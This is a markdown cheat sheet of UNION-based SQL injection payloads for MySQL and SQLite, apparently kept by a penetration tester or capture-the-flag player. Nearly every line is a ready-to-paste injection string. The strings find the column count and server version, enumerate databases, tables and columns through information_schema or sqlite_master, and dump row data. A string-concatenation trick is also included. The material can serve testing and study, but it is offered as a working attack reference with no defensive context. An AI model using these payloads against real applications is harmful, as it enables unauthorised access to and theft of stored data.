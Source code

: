 ## MySQL

- Extract column length

  - `'union select 1,2,3#`

- Confirming injection visible

  - `'union select @@version,2,3#`

- Extract database names

  - `'union select group_concat(0x7c,schema_name,0x7c),2,3 from information_schema.schemata#`

- Extract table neams from database

  - `'union select group_concat(0x7c,table_name,0x7c),2,3 from information_schema.tables where table_schema='<DATABASE_NAME>'#`

- Extract column names from table name

  - `'union select group_concat(0x7c,column_name,0x7c),2,3 from information_schema.columns where table_name='<TABLE_NAME>'#`

- Extract data

  - `'union select <COLUMN_NAME>,'b','c' from <DATABASE_NAME>.<TABLE_NAME> where id='1'#`

## SQLite
- Extract previous query
  - `union select sql from sqlite_master`

- Extract table names 
  - `union select name from sqlite_master where type='table'--`
  
- Extract column names from table name
  - `union select sql from sqlite_master where type='table' and name='<table_name>'--`
  
- Extract data using column and table name
  - `union select <column_name> from <table_name> where id=1--`
 
- Tricks
  - String concatenation `ad'||'min`
